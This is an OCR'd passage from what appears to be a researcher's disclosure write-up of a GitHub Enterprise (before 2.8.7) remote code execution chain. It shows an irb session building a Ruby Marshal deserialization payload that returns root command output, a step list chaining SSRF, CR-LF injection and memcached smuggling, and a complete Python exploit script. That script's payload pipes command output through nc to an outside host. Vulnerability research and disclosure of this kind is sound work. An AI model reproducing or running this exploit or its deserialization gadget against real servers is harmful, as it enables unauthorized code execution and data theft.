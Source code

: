 irb(main):003:0> GitHub.cache.get("nogg")
=> "hihihi"

irb(main):004:0> GitHub.cache.get("nogg", :raw=>true)
=> "\x04\bI\"\vhihihi\x06:\x06ET"

irb(main):005:0> code = "`id`"
=> "`id`"

irb(main):006:0> payload = "\x04\x08" + "o"+":\x40ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy"+"\x07" + ":\x0E@instance" + "o"+":\x08ERB"+"\x07" + ":\x09@src" + Marshal.dump(code)[2..-1] + ":\x0c@lineno"+ "i\x00" + ":\x0C@method"+":\x0Bresult"
=> "\u0004\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\a:\u000E@instanceo:\bERB\a:\t@srcI\"\t`id`\u0006:\u0006ET:\f@linenoi\u0000:\f@method:\vresult"

irb(main):007:0> GitHub.cache.set("nogg", payload, 60, :raw=>true)
=> true

irb(main):008:0> GitHub.cache.get("nogg")
=> "uid=0(root) gid=0(root) groups=0(root)\n"
OK, let’s summarize our steps!

First SSRF - Bypass the existing protection in Webhook
Second SSRF - SSRF in Graphiteservice
Chained first SSRF and second SSRF into a SSRF execution chain
CR-LF Injection in the SSRF execution chain
Smuggled as Memcached protocol and insert a malicious Marshal Object
Triggered RCE
Exploit in a Nutshell



The final exploit you can find on Gist and video on Youtube

```

#!/usr/bin/python
from urllib import quote

''' set up the marshal payload from IRB
code = "`id | nc orange.tw 12345`"
p "\x04\x08" + "o"+":\x40ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy"+"\x07" + ":\x0E@instance" + "o"+":\x08ERB"+"\x07" + ":\x09@src" + Marshal.dump(code)[2..-1] + ":\x0c@lineno"+ "i\x00" + ":\x0C@method"+":\x0Bresult"
'''
marshal_code = '\x04\x08o:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\x07:\x0e@instanceo:\x08ERB\x07:\t@srcI"\x1e`id | nc orange.tw 12345`\x06:\x06ET:\x0c@linenoi\x00:\x0c@method:\x0bresult'

payload = [
    '',
    'set githubproductionsearch/queries/code_query:857be82362ba02525cef496458ffb09cf30f6256:v3:count 0 60 %d' % len(marshal_code),
    marshal_code,
    '',
    ''
]

payload = map(quote, payload)
url = 'http://0:8000/composer/send_email?to=orange@chroot.org&url=http://127.0.0.1:11211/'

print "\nGitHub Enterprise < 2.8.7 Remote Code Execution by orange@chroot.org"
print '-'*10 + '\n'
print url + '%0D%0A'.join(payload)
print '''


```